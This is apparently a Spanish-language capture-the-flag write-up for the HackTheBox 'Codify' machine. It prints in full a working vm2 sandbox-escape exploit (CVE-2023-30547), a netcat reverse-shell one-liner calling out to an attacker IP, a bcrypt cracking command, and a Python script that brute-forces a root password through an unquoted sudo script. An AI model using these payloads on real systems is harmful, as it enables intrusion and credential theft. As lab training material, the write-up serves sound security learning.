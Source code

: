 ```yaml
---
layout: single
title: HTB codify writeup
date: 2023-11-07
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```








<h1>Resumen || </h1><br>
<div style="text-align: justify;">
Codify es una máquina Linux que ejecuta un servidor HTTP y aloja una aplicación web desactualizada. Aprovecharemos las vulnerabilidades en esta aplicación para acceder al sistema, donde descubriremos credenciales encriptadas en formato bcrypt. Estas credenciales pueden ser explotadas de manera sencilla utilizando John The Ripper. Una vez que hayamos obtenido acceso al usuario Joshua, investigaremos cómo vulnerar un código en bash que cuenta con permisos sudo pero no está implementado con todas las medidas de seguridad necesarias. Esto nos permitirá elevar nuestros privilegios al nivel de root.
</div>
<br>
# Reconocimiento

## Puertos

Realizamos un escaneo rápido de puertos y versiones de servicios a la máquina víctima:

```shell
└─$ nmap -p- -sV 10.10.11.239 -T5 -oN nmap.txt -vvv
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175436.png)


## Web

El puerto 80 tiene un servidor http activo: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175901.png)

A simple vista hay tres páginas: `/limitations`, `/about`, `/editor`.

El servidor contiene una aplicación web que permite testear código Node JS. Una Reverse Shell sencilla en este lenguaje no funciona por los módulos restringidos: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180512.png)

La aplicación funciona mediante la libreria vm2 en la versión 3.9.16. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180126.png)
<<<<<<< HEAD


=======
>>>>>>> f6b014c07e068104233fe7bab9e18ffa9b6873d6
# Penetración 

## Web

La versión 3.9.16 de la librería vm2 tiene una vulnerabilidad registrada como [CVE-2023–30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547), que permite escapar de las restricciones del editor. Con ello podemos ejecutar código malicioso y una reverse shell con la que acceder al sistema víctima. 


### Exploit

Haremos uso del siguiente [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244):

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('whoami');
}
`

console.log(vm.run(code));
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107181134.png)

Una vez confirmada la vulnerabilidad, el acceso es ya algo mecánico. Abrimos puerto en escucha: 

```shell
nc -lvp 4444
```

Introducimos una [reverse shell](https://www.revshells.com/) con el siguiente comando: 

```shell 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.78 4444 >/tmp/f
```



![](/assets/images/HTB-writeup-codify/Pasted image 20231107181459.png)

Una vez dentro, vamos a necesitar, por comodidad, una shell con todas sus funciones. Habrá que ejecutar lo siguiente: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

En `/home` vemos un usuario posiblemente vulnerable: `joshua`
En `/var/www/contact` hay un archivo SQLite con un hash en bcrypt. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182336.png)

Con John The Ripper se tarda menos de treinta segundos en hacerse cargo de ella: 

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```


# Acceso y Escalada de Privilegios

```shell
ssh joshua@10.10.11.239
```

Aquí está la flag `user.txt`.

Para escalar privilegios vamos a revisar qué puede hacer nuestro usuario Joshua: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182843.png)

Parece ser que podemos ejecutar un comando con permisos sudo que pregunta por la contraseña root. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183231.png)

Está programado con ciertas vulnerabilidades de seguridad. Al no estar las variables entre comillas, nos permite realizar que se lean como comandos y no sólo como variables.

El camino fácil es construir un script en python que automatice el trabajo de fuerza bruta. 

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Lo creamos en `/tmp`, le damos permisos de ejecución y nos da la contraseña en cuestión de minutos. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183856.png)
